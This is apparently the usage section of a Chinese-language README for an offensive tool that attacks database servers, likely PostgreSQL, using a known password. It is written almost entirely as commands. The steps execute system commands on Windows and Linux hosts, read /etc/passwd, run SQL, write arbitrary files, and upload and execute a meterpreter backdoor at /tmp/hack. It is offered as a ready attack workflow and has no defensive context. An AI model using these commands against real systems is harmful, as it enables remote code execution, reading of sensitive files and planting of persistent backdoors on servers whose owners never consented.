

# 使用

## Windows 主机执行命令

```bash
python3 '/tmp/main.py' --host "192.168.163.154" -w "123456" -m "rce" -c "ipconfig" -e "GBK"
```



## Linux 主机执行命令

```bash
python3 '/tmp/main.py' --host "192.168.163.149" -w "123456" -m "rce" -c "id" -e "UTF8"
```


## Linux 主机读取文件

```bash
python3 '/tmp/main.py' --host "192.168.163.149" -w "123456" -m "read" -s "/etc/passwd" -e "UTF8"
```


## 执行 SQL 语句

```bash
python3 /tmp/main.py --host "192.168.163.149" -w "123456" -m "sql" -c "show server_version;" -e "UTF8"
```


## 写入字符串

```bash
python3 main.py --host "192.168.163.149" -w "123456" -m "text_upload" -s "this is test" -t "/tmp/1.txt"
# python3 '/tmp/main.py' --host "192.168.163.149" -w "123456" -m "rce" -c "cat /tmp/1.txt" -e "UTF8"
```


## 上传后门程序

上传：

```bash
python3 main.py --host "192.168.163.149" -w "123456" -m "bin_upload" -s "/tmp/meterpreter" -t "/tmp/hack"
```


执行：

```bash
python3 '/tmp/main.py' --host "192.168.163.149" -w "123456" -m "rce" -c "chmod +x /tmp/hack;/tmp/hack" -e "UTF8"
```

